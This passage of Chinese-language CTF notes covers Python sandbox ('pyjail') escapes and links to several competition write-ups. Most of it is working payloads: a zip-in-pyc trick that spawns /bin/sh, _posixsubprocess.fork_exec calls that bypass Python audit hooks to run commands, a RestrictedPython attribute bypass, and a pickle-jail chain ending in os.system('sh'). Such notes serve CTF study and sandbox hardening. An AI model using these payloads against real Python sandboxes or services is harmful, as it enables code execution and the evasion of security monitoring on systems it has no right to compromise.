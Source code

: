 - `list(open("flag.txt"))`/`str([*open('flag.txt')])`/`open('flag.txt').__next__()`:没有read函数的情况下读取文件。需要在`print(eval(input()))`或者python console的情况下使用。单纯eval是没有输出的。加个print就有输出了：`print(*open("flag.txt"))`
- [PyPlugins](https://blog.maple3142.net/2023/06/05/justctf-2023-writeups/#pyplugins): python是能接受zip file当作input的(参考zipapp)，里面的运作原理和一般zip解压缩很像，就是找zip的end of central directory之类的。另一方面CPython还有个pyc档案包含了一些header和code object，而code object上又会有co_consts的存在。所以如果你有个Python里面有个很长的byte literal包含了一个zip，它编译成pyc之后会直接在里面展开，而此时去执行它的时候CPython反而是会因为那个zip signature而把它误认成zip来执行。可利用此绕过非常严格的opcodes限制。`runpy.run_path(py_compile.compile(path))`
```py
#生成path指向的文件内容
import tempfile
import zipfile
import base64
def create_zip_payload() -> bytes:
    file_name = "__main__.py"
    file_content = b'import os;os.system("/bin/sh")'
    with tempfile.TemporaryFile(suffix=".zip") as f:
        with zipfile.ZipFile(f, "w") as z:
            z.writestr(file_name, file_content)
        f.seek(0)
        return f.read()
temp=f"pwn={create_zip_payload()!r}"
print(base64.b64encode(temp.encode()))
```
- [obligatory pyjail](https://github.com/abhishekg999/CTFWriteups/tree/main/LITCTF/obligatory%20pyjail)
  - 禁止除exec或compile外的[audit events](https://docs.python.org/3/library/audit_events.html)。`__import__('os')`和`__loader__.load_module`不会触发import audit event；`_posixsubprocess.fork_exec`可以在最底层执行exec，不会被audit event捕捉到
  - `__builtins__.__loader__.load_module('_posixsubprocess').fork_exec([b"/bin/cat", b'flag.txt'], [b"/bin/cat"], True, (), None, None, -1, -1, -1, -1, -1, -1, *(__import__('os').pipe()), False, False, None, None, None, -1, None)`
  - `__import__("_posixsubprocess").fork_exec(['cat', 'flag.txt'], (b'/bin/cat',), True, (7,), None, None, -1, -1, __import__("os").pipe()[0], 5, -1, -1, __import__("os").pipe()[0], 7, True, False, None, None, None, -1, None)+print(__import__("os").read(4, 1000).decode())`
  - `[lm:=().__class__.__base__.__subclasses__()[104].load_module,p:=__import__("os").pipe,_ps:=lm("_posixsubprocess"),_ps.fork_exec([b"/bin/cat", b"flag.txt"], [b"/bin/cat"], True, (), None, None, -1, -1, -1, -1, -1, -1, *(p()), False, False, None, None, None, -1, None)]`
- [wow it's another pyjail](https://github.com/abhishekg999/CTFWriteups/tree/main/LITCTF/wow%20its%20another%20pyjail)
  - 有关RestrictedPython的漏洞。可以利用format访问用下划线开头的属性（这类属性正常情况下是被保护的，无法直接访问）
- [Just Another Pickle Jail](https://github.com/project-sekai-ctf/sekaictf-2023/tree/main/misc/just-another-pickle-jail)
  - 其他解：
  ```py
  mgk = GLOBAL('', 'mgk')
  up = GLOBAL('', 'up')
  __main__ = GLOBAL('', '__main__')
  __getattribute__ = GLOBAL('', '__getattribute__')
  __init__ = GLOBAL('', '__init__')
  __builtins__ = GLOBAL('', '__builtins__')
  BUILD(up, None, {'banned': [], '__import__': __init__})
  BUILD(mgk, None, {'nested': up})
  BUILD(__main__, None, {'__main__': __builtins__})
  BUILD(up, None, {'__import__': __getattribute__})
  builtins_get = GLOBAL('', 'get')
  BUILD(up, None, {'__import__': __init__})
  BUILD(up, None, {'persistent_load': builtins_get})
  exec = PERSID('exec')
  BUILD(up, None, {'persistent_load': exec})
  PERSID('sys.modules["os"].system("sh")')
  ```
  ```py
  ```